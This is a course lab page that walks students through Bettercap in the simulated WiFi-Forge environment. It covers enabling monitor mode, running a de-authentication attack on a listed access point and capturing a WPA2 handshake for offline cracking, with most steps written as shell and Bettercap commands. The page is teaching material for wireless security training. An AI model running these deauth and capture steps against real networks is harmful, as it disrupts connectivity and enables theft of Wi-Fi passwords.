






# OPTIONAL Lab - WiFi-Forge

!!! warning
    WiFi-Forge is under **active development** (AKA - this Lab may have issues) by the good folks at Black Hills Information Security. They are seeking feedback on the tool and welcome the submission of any issues on the [main GitHub page](https://github.com/blackhillsinfosec/Wifi-Forge/issues).

    A forked version can be found at [https://github.com/ridgebackinfosec/Wifi-Forge](https://github.com/ridgebackinfosec/Wifi-Forge) which should work with this Lab.

!!! warning
    Wifi-Forge can take up a lot of space on a VM and can create unpredicatable consequences between dependencies. It is recommended that you either create a new VM from The Forge base image or snapshot your class VM ***before*** installing Wifi-Forge.

!!! note
    This and many more WiFi-Forge Labs are available at [https://wififorge.github.io/](https://wififorge.github.io/). 
    
    Follow the install steps from the slides or [here](https://wififorge.github.io/Installation/Installation) before working on this Lab.

In this lab, we will familiarize ourselves with Bettercap, a common wireless auditing tool.

## Getting Started with Bettercap

```bash
cd ~/Wifi-Forge/Framework
sudo python3 WifiForge.py
```

Select **Bettercap Recon** from the menu. Allow up to 30 seconds to initialize the network.

{ width="70%" }

!!! note
    Normally, when using Bettercap with physical network cards, it is necessary to use `airmon-ng check kill` to terminate processes that may interfere. However, running this command in the mininet-wifi network is unnecessary and may cause failures.

Start by putting the interface `a-wlan0` in monitor mode:

```bash
airmon-ng start Attacker-wlan0
```

If prompted, input **y** and hit enter.

{ width="70%" }

Successful initialization will appear as shown below:

{ width="70%" }

Verify that the interface has been put into monitor mode:

```bash
ifconfig | grep flags
```

The interface `a-wlan0mon` should now be present:

{ width="70%" }

## Launching Bettercap

Run the following command to start Bettercap with the interface in monitor mode:

```bash
bettercap -iface a-wlan0mon
```

You will be greeted by a prompt displaying the network interface name:

{ width="70%" }

The following commands configure the console for a more understandable workflow to view the de-authentication attack:

```bash
set wifi.show.sort clients desc
set ticker.commands 'clear; wifi.show'
ticker on
set wifi.show.sort clients desc
```

After running these commands, you should see the following on your screen:

{ width="70%" }

Disable console logging using:

```bash
events.stream off
```

## Capturing Handshakes

Set the handshakes file and enable the `wifi.recon` module:

```bash
set wifi.handshakes.file ./loot/4whs
wifi.recon on
```

Force the interface to operate only on channel 6:

```bash
wifi.recon.channel 6
```

Start the de-authentication attack:

```bash
wifi.deauth 76:df:71:67:40:2b
```

It may take a few seconds, but Bettercap will catch the handshake:

{ width="70%" }

A handshake is an encrypted WPA2 password intercepted between the client and router, which can be decrypted offline.

Your final packet count may differ from the screenshot.